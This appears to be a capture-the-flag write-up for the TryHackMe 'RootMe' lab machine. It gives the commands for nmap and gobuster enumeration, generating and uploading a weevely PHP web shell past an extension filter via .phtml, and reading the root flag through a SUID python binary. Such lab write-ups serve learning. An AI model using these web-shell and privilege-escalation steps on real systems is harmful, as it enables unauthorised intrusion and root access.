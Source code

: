 # Root Me
## Enumeration
``` 
nmap -sV -sS -A -o nmap.out {your ip}
In Nmap I found:
Port 80 Is Running Apache Server
Port 22 Is Running SSH
```
```
# Nmap 7.80 scan initiated Sun May  9 21:44:56 2021 as: nmap -sV -sS -A -o nmap.out 10.10.85.5
Nmap scan report for 10.10.85.5
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   58.49 ms  10.17.0.1
2   ... 4
5   198.58 ms 10.10.85.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  9 21:46:45 2021 -- 1 IP address (1 host up) scanned in 110.05 seconds
```
# website Lookup
```
Nothing In Website
So i started gobuster
gobuster -u {your ip} -w /usr/share/dirb/wordlists/common.txt
```
![Alt](/home/pmk/Documents/ctf/tryhackme/rootme/buster.png)
```
Found /panel and /uploads
In Panel We Have Access To Upload Files.
```
![Alt](/home/pmk/Documents/ctf/tryhackme/rootme/panel.png)
```
I Fired Up Terminal And Immediately Installed weevely
About Weevely:
Weevely Is A PHP reverse shell listener and creator 
command = weevely generate {your pass} shell.php 
 shell.php 
Lets Upload It Now.
```
![Alt](php-not-allow.png)
#### I Transalated It Using Google Transalate
![Alt](transalate.png)
#### Php Is Not Allowed
#### Lets See Hint Which FILE UPLOAD BYPASS
#### I googled It And Got This
![Alt](file-bypass.png)
### So i Renamed From .php to .phtml
![Alt](uplaod.png)
### Now It Is Uploaded
![Alt](success.png)
```
I Remember I Also Found A Hidden Directory Named /uploads In Gobuster Lets Visit it Now
```
### Thats All We Need Lets Open It shell.phtml
![Alt](uploads.png)

### Now I Fired Terminal And Typed
```
weevely http://{your-ip}/uploads/shell.phtml 5142
```
## Boom I Got A Reverse Shell
![Alt](rev-shell.png)
### Lets CD To user.txt
```
user.txt was present inside /var/www/
```
![Alt](user.png)
# Privilage Escalation
### We Got Nothing using sudo -l
### So I Started Search For Files with SUID Permission
```
find / -user root -perm /4000
```
### /usr/bin/python is Too Suspicious
![Alt](python-weird.png)
### I Know A Trick Here To Get Root.txt 
```
python -c 'print(open("/root/root.txt").read())'
```
## Boom Escalation In Less Than 30 Seconds
![Alt](priv.png)
# Machine Hacked By Patan Musthakheem Khan
